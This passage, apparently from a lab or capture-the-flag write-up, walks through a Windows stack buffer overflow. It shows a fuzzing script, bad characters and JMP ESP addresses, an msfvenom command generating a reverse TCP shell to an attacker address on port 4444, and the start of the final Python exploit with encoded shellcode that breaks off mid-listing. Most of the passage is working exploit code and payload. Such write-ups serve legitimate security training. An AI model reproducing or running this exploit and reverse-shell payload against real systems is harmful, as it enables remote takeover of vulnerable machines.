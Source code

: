 ```python
		s.send((buffer+'\r\n')) # send the buffer over the tcp connection
		s.close()
		sleep(1)
		buffer = buffer + 'A' * 50

	except:
		print "fuzzing crashed at %s bytes" % str(len(buffer)) # tell the attacker where the application crashed
		sys.exit()

```
run the program in you lab thin run this script in you kali.. we have the overflow size now ```159```

### note

in these writeup I will note go over all usal steps of the buffer overflow steps, instead of this I will recomond for you [bufferoverflow tryhackme preparation room](https://tryhackme.com/room/bufferoverflowprep), it's good manual for you if you are a beginer in this topic

so after all usal steps the results are:
```
bad characters \x00\x0A
```
```
JMP ESP 0x080414c3 
JMP ESP 0x080416bf
```

now let's geanarate a shellcode using the msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -b "\x00\x0A" -f c -e x86/shikata_ga_nai
```
the final exploit it's
```python

import socket
import sys
from time import sleep



#bad characters \x00\x0A

# shellcode
# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.3.214 LPORT=4444 -b "\x00\x0A" -f c -e x86/shikata_ga_nai

shell = ("\xda\xc3\xbe\xa4\xa4\xd2\x98\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x70\x17\x83\xe8\xfc\x03\xd4\xb7\x30\x6d\xe8\x50\x36"
"\x8e\x10\xa1\x57\x06\xf5\x90\x57\x7c\x7e\x82\x67\xf6\xd2\x2f"
"\x03\x5a\xc6\xa4\x61\x73\xe9\x0d\xcf\xa5\xc4\x8e\x7c\x95\x47"
"\x0d\x7f\xca\xa7\x2c\xb0\x1f\xa6\x69\xad\xd2\xfa\x22\xb9\x41"
"\xea\x47\xf7\x59\x81\x14\x19\xda\x76\xec\x18\xcb\x29\x66\x43"
"\xcb\xc8\xab\xff\x42\xd2\xa8\x3a\x1c\x69\x1a\xb0\x9f\xbb\x52"
"\x39\x33\x82\x5a\xc8\x4d\xc3\x5d\x33\x38\x3d\x9e\xce\x3b\xfa"
"\xdc\x14\xc9\x18\x46\xde\x69\xc4\x76\x33\xef\x8f\x75\xf8\x7b"
"\xd7\x99\xff\xa8\x6c\xa5\x74\x4f\xa2\x2f\xce\x74\x66\x6b\x94"
"\x15\x3f\xd1\x7b\x29\x5f\xba\x24\x8f\x14\x57\x30\xa2\x77\x30"
"\xf5\x8f\x87\xc0\x91\x98\xf4\xf2\x3e\x33\x92\xbe\xb7\x9d\x65"
"\xc0\xed\x5a\xf9\x3f\x0e\x9b\xd0\xfb\x5a\xcb\x4a\x2d\xe3\x80"
"\x8a\xd2\x36\x06\xda\x7c\xe9\xe7\x8a\x3c\x59\x80\xc0\xb2\x86"
"\xb0\xeb\x18\xaf\x5b\x16\xcb\xda\x92\x1b\xdd\xb3\xa6\x1b\xf0"
"\x1f\x2e\xfd\x98\x8f\x66\x56\x35\x29\x23\x2c\xa4\xb6\xf9\x49"
```